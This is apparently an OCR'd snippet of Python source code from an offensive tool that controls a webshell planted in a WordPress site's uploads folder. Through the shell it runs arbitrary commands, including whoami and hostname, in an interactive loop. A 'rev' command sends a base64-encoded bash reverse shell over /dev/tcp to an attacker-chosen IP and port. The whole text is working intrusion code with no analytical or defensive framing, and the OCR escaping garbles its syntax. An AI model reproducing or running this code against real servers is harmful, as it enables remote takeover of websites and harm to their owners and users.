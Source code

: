 whoami = requests\.get\(url \+ "wp\-content/uploads/2023/09/" \+ webshell\_name \+ "?cmd=whoami"\)\.text
whoami = whoami\.strip\(\)

hostname = requests\.get\(url \+ "wp\-content/uploads/2023/09/" \+ webshell\_name \+ "?cmd=hostname \-I"\)\.text
hostname = hostname\.strip\(\)

print\(c\.BLUE \+ "\\nType " \+ c\.YELLOW \+ "help" \+ c\.BLUE \+ " to see extra functions\\n" \+ c\.END\)
while True:

command\_to\_exec = input\(whoami \+ "@" \+ hostname \+ ":~$ "\)

if command\_to\_exec \!= "exit" and command\_to\_exec \!= "quit" and command\_to\_exec \!= "help" and not command\_to\_exec\.startswith\("rev "\) and command\_to\_exec \!= "clear" and command\_to\_exec \!= "cls" and command\_to\_exec \!= "?":
command\_out = requests\.get\(url \+ "wp\-content/uploads/2023/09/" \+ webshell\_name \+ "?cmd=" \+ command\_to\_exec\)\.text
print\("\\n" \+ command\_out\)

if command\_to\_exec == "help" or command\_to\_exec == "?":
print\(c\.YELLOW \+ "\\nCommands\\t\\tDescription" \+ c\.END\)
print\(c\.YELLOW \+ "\-\-\-\-\-\-\-\-\\t\\t\-\-\-\-\-\-\-\-\-\-\-" \+ c\.END\)
print\(c\.BLUE \+ "rev \<ip\> \<port\>\\t\\tSend a reverse shell to your netcat listener" \+ c\.END\)
print\(c\.BLUE \+ "quit/exit\\t\\tExit from shell" \+ c\.END\)
print\(c\.BLUE \+ "clear/cls\\t\\tClear terminal output" \+ c\.END\)
print\(c\.BLUE \+ "help/?\\t\\t\\tPrint this help panel\\n" \+ c\.END\)

if command\_to\_exec == "clear" or command\_to\_exec == "cls":
os\.system\("clear"\)

if command\_to\_exec\.startswith\("rev "\):

print\(c\.BLUE \+ "\\n\[" \+ c\.YELLOW \+ "\*" \+ c\.BLUE \+ "\] Sending a reverse shell to your listener\.\.\.\\n" \+ c\.END\)

# Parse IP and port
ip = command\_to\_exec\.split\(" "\)\[1\]
port = command\_to\_exec\.split\(" "\)\[2\]

# Define bash reverse shell
reverse = f"""bash \-i \&\> /dev/tcp/\{ip\}/\{port\} 0\>\&1"""
reverse = base64\.b64encode\(reverse\.encode\(\)\)\.decode\(\)
reverse = f"""echo \{reverse\} | base64 \-d | bash"""

try:
rev\_command = requests\.get\(url \+ "wp\-content/uploads/2023/09/" \+ webshell\_name \+ "?cmd=" \+ reverse, timeout=3\)
except:
pass
